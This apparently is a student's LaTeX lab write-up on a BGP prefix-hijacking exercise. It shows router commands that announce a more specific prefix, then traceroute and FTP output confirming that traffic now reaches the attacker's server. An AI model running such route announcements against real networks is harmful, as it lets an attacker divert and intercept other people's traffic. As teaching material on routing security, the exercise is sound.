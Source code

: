 \documentclass[a4paper,11pt,hidelinks]{article}
\newtheorem{theorem}{Question}[subsection]
\begin{document}
\begin{code}{Input for the telnet command.}
enable
config terminal
router bgp 65004
no network 10.1.0.0/16
network 10.1.1.0/24
end
exit
\end{code}
    
After completing this process, wait at least 5 few minutes (so that the routes are propagated throughout the network) and log back into the client host and do the following:

\begin{theorem}
    Run \verb=traceroute -n 10.1.1.2=. How many hops away is the ftp server \verb=10.1.1.2= from the client this time? Is there a difference in output from the same command in Part-2?
\end{theorem}

\begin{proof}
    This is the output:

\begin{code}{Output of the traceroute command.}
traceroute to 10.1.1.2 (10.1.1.2), 30 hops max, 60 byte packets
1  10.5.0.1  0.543 ms  0.490 ms  0.446 ms
2  10.4.0.2  0.836 ms  0.806 ms  0.737 ms
3  10.1.1.2  1.440 ms  1.403 ms  1.359 ms
\end{code}

    This time, the server is only three hops away. We deduce that our attack worked, and the routing is now pointing at the attacker.
\end{proof}

\begin{theorem}
    Run \verb=ftp 10.1.1.2= and at the prompt for username type \verb=anonymous=, type some random text for password. Once you are connected to the ftp server, type \verb=get README= at the ftp prompt. After the README file finishes downloading, logout (type \verb=exit=) and read and contents of the README file. What does it say? Did the contents of README file differ from the output in Part-2?
\end{theorem}

\begin{proof}
    This is the output:

\begin{code}{Output of the ftp command.}
otech2af@client:~$ ftp 10.1.1.2
Connected to 10.1.1.2
||[truncated output]||
226 Transfer complete. 32 bytes received in 0.00 secs (12.3959 kB/s)

otech2af@client:~$ cat README
**I just hijacked your BGP Prefix!**
\end{code}

    A further confirmation of the success of the attack. The content of the README differ.
\end{proof}
\end{document}
